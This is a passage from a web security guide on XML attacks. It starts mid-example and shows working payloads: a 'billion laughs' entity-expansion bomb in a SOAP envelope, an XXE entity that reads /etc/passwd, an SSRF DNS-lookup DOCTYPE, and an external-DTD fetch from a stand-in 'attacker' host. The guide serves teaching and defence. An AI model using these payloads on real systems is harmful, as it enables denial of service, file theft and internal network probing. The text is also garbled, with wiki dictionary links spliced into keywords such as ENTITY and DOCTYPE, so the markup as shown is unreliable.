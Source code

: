  <![[_content/dictionary#A|ATTLIST]] SOAP-ENV:ENVELOPE [[_content/dictionary#E|ENTITYREFERENCE]] [[_content/dictionary#C|CDATA]] #[[_content/dictionary#I|IMPLIED]]>
 <![[_content/dictionary#E|ENTITY]] [[_content/dictionary#L|LOL]] "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;">
]>
<SOAP:ENVELOPE ENTITYREFERENCE="&LOL9;"
               [[_content/dictionary#X|XMLNS]]:SOAP="[[_content/dictionary#H|HTTP]]://[[_content/dictionary#S|SCHEMAS]].[[_content/dictionary#X|XMLSOAP]].[[_content/dictionary#O|ORG]]/[[_content/dictionary#S|SOAP]]/[[_content/dictionary#E|ENVELOPE]]/">
 <SOAP:[[_content/dictionary#B|BODY]]>
  <[[_content/dictionary#K|KEYWORD]] XMLNS="[[_content/dictionary#U|URN]]:[[_content/dictionary#P|PARASOFT]]:[[_content/dictionary#W|WS]]:[[_content/dictionary#S|STORE]]">[[_content/dictionary#F|FOO]]</KEYWORD>
 </SOAP:BODY>
</SOAP:ENVELOPE>

##### Reflected File Retrieval¶
Consider the following example code of an [[_content/dictionary#X|XXE]]:
<?xml version="1.0" encoding="[[_content/dictionary#I|ISO]]-8859-1"?>
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ELEMENT]] includeme [[_content/dictionary#A|ANY]]>
 <![[_content/dictionary#E|ENTITY]] xxe [[_content/dictionary#S|SYSTEM]] "/etc/passwd">
]>
<root>&xxe;</root>

The previous [[_content/dictionary#X|XML]] defines an entity named xxe, which is in fact the contents of /etc/passwd, which will be expanded within the includeme tag. If the parser allows references to external entities, it might include the contents of that file in the XML response or in the error output.
##### Server Side Request Forgery¶
Server Side Request Forgery ([[_content/dictionary#S|SSRF]]) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources such as a file via [[_content/dictionary#H|HTTP]]/[[_content/dictionary#H|HTTPS]]/[[_content/dictionary#F|FTP]], etc. SSRF has been used to retrieve remote files, to prove a [[_content/dictionary#X|XXE]] when you cannot reflect back the file or perform port scanning, or perform brute force attacks on internal networks.
###### External [[_content/dictionary#D|DNS]] Resolution¶
Sometimes it is possible to induce the application to perform server-side DNS lookups of arbitrary domain names. This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS traffic. Burp has a plugin that checks for this attack.
<![[_content/dictionary#D|DOCTYPE]] m [[_content/dictionary#P|PUBLIC]] "-//B/A/[[_content/dictionary#E|EN]]" "http://checkforthisspecificdomain.example.com">

###### External Connection¶
Whenever there is an [[_content/dictionary#X|XXE]] and you cannot retrieve a file, you can test if you would be able to establish remote connections:
<?xml version="1.0" encoding="[[_content/dictionary#U|UTF]]-8"?>
<![[_content/dictionary#D|DOCTYPE]] root [
 <![[_content/dictionary#E|ENTITY]] % xxe [[_content/dictionary#S|SYSTEM]] "http://attacker/evil.dtd">
 %xxe;
]>
